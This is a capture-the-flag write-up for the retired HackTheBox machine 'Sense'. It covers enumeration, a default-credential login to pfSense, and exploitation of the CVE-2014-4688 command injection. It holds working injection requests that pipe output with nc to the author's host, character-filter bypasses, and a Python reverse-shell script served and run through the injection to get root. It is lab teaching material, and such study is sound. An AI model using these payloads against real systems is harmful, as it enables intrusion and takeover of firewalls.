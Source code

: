 # Sense

This is the write-up for the box Sense that got retired at the 24th March 2018.
My IP address was 10.10.14.11 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.60    sense.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/sense.nmap 10.10.10.60
```

```markdown
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
```

## Checking HTTP and HTTPS (Port 80 & 443)

The web service on port 80 forwards to the web service on port 443 and it greets us with a **pfSense** login page:

![pfSense Login](https://kyuu-ji.github.io/htb-write-up/sense/sense_web-1.png)

This software is an open-source firewall and router software that is based on **FreeBSD**.
By default it has a Brute-Force protection that bans IP addresses for 24 hours after 15 failed login attempts, so we can't guess usernames.

But it is possible to search for hidden directories or files with **Gobuster**:
```markdown
gobuster -u https://10.10.10.60 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x txt -t 250
```

I look for _txt_ files because searching for directories did not get any interesting results.
This way it finds two _txt_ files:
- /changelog.txt
```markdown
# Security Changelog

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

- /system-users.txt
```markdown
####Support ticket###

Please create the following user

username: Rohit
password: company defaults
```

The _changelog.txt_ shows that two out of three vulnerabilities are patched, so there is probably one that we can exploit.
In the _system-users.txt_ we get a the username _Rohit_ who has the company default password.

We don't know the company default password but when trying the default password for **pfSense**, which is _pfsense_, we get logged in with _rohit_.

![pfSense Dashboard](https://kyuu-ji.github.io/htb-write-up/sense/sense_web-2.png)

The version of this pfSense installation is 2.1.3 and we can search for public vulnerabilities:
```markdown
searchsploit pfsense
```

The vulnerability _"pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection"_ looks like one that we can use.
This vulnerability is registered with the CVE number **CVE-2014-4688**.
An explanation about this vulnerability can be found in [this blog post from Proteansec](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/).

### Command Execution

We need to send a GET request to the _"database"_ parameter which can be found in pfSense:
```markdown
Status --> RRD Graphs --> Right click on image --> View Image

https://10.10.10.60/status_rrd_graph_img.php?start=1586492753&end=1586521553&database=system-processor.rrd&style=inverse&graph=eight_hour
```

Lets send this request to **Burpsuite** and make it cleaner:
```markdown
GET /status_rrd_graph_img.php?&database=queues HTTP/1.1
```

Now we can start with the command execution:
```markdown
GET /status_rrd_graph_img.php?&database=queues;sleep+10
```

The response for this request takes about 10 seconds which means the `sleep` command went through and command execution works.
Unfortunately there is not output to stdout when executing something that needs output like `whoami`.

To get around this we use `nc` to connect to our client and use it as stdout:
```markdown
# Start listener on port 9001
nc -lvnp 9001

# Send request
GET /status_rrd_graph_img.php?&database=queues;whoami|nc+10.10.14.11+9001
```

The listener on my IP and port 9001 shows the output of `whoami` and it displays root.
When trying to start a reverse shell it won't work because there is a filter implemented for some special characters. For example the _slash_ character and _dash_ character does not work.

#### Bypassing the character filter

We can take a _slash_ character out of one of the environment variables.
```markdown
GET /status_rrd_graph_img.php?&database=queues;env|nc+10.10.14.11+9001
```

The environment variable for _HOME_ consists of a _slash_ character.
```markdown
GET /status_rrd_graph_img.php?&database=queues;echo+${HOME}test|nc+10.10.14.11+9001
```

The output of this request is _"/test"_ and thus we got a slash character. This way we can examine the whole filesystem:
```markdown
# Start listener on port 9001 and redirect to file
nc -lvnp 9001 > filesystem.txt

# Send request
GET /status_rrd_graph_img.php?&database=queues;find+${HOME}|nc+10.10.14.11+9001
```

Now a _dash_ character is needed to use parameters for commands. We can get this character by using the octal of the ASCII character of the dash with `printf`. The octal for _dash_ in the ASCII table is _55_.   
```markdown
GET /status_rrd_graph_img.php?&database=queues;printf+"\55"|nc+10.10.14.11+9001
```

The output of this request is a dash character.

### Starting a reverse shell

With all these workarounds to bypass the character filter, a reverse shell should be possible to execute.
First creating a Python reverse shell called _revshell.py_:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.11",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Starting a listener on port 9001 with a redirect to _revshell.py_:
```markdown
nc -lvnp 9001 < revshell.py

nc -lvnp 1234
```

Sending the request:
```markdown
GET /status_rrd_graph_img.php?&database=queues;nc+10.10.14.11+9001|python
```

The listener on my IP and port 1234 starts a reverse shell connection as root!
